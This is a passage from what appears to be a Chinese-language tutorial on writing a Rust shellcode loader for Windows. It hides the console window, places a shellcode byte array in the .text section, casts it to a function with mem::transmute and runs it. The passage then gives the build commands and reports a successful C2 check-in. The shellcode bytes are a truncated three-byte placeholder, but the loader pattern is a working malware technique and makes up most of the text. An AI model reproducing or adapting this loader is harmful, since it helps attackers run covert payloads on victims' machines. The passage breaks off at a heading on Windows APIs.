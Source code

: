 ```plain
#![windows_subsystem = "windows"]

fn main() {



    #[link_section = ".text"]
    static shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    let shellcode_ptr: *const u8 = &shellcode as *const u8;

    unsafe {
        let exec_shellcode = std::mem::transmute::<*const u8, fn()>(shellcode_ptr);
        exec_shellcode();

    }

}
```

这段是比较基础的 shellcode，其中使用了==mem::transmute==来执行了我们的 shellcode  
之后指定编译的平台为==x86\_64-pc-windows-msvc==

```plain
rustup default nightly-x86_64-pc-windows-msvc
```

编译

```plain
cargo build --release
```

之后运行上线

[![](assets/1699257255-11b921388204d1bb8f821a916b3ed68e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232118-cd2d5790-7b25-1.png)

可以看到上线成功

## windows 的 api
